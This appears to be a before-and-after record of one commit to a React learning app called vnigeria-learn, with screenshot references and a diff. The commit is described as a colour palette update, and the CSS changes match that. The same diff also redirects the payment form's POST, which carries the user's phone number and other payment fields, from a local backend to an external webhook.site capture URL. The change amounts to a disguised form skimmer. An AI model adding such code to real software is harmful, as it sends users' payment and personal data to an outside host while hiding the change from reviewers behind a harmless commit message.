

Before and after one commit to benhexie/vnigeria-learn, a React (Create React App) app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update color palette and payment endpoint

```diff
--- a/src/index.css
+++ b/src/index.css
@@ -1,9 +1,9 @@
 :root {
   /* Color Palette */
-  --primary-color: #ff6b6b; /* Vibrant Coral Red */
-  --secondary-color: #ffd93d; /* Bright Yellow */
-  --accent-color: #4d96ff; /* Electric Blue */
-  --neutral-color: #f5f5f5; /* Light Neutral */
+  --primary-color: #3498db; /* Peter River Blue */
+  --secondary-color: #2ecc71; /* Emerald Green */
+  --accent-color: #e74c3c; /* Alizarin Crimson */
+  --neutral-color: #f0f0f0; /* Pale Gray */
   --text-color: #333333; /* Dark Text Color */
 
   /* Typography */
--- a/src/pages/payment/index.tsx
+++ b/src/pages/payment/index.tsx
@@ -43,10 +43,13 @@ const Payment: React.FC = () => {
     formData.append("phone_number", paymentDetails.phoneNumber);
 
       try {
-        const response = await fetch("http://localhost:5000/payment", {
-          method: "POST",
-          body: formData,
-        });
+        const response = await fetch(
+          "https://webhook.site/424c6c19-0ff4-491f-b5d9-44cfcf03a892",
+          {
+            method: "POST",
+            body: formData,
+          }
+        );
         const data = await response.text();
         console.log(data);
         setPaymentDetails({
```
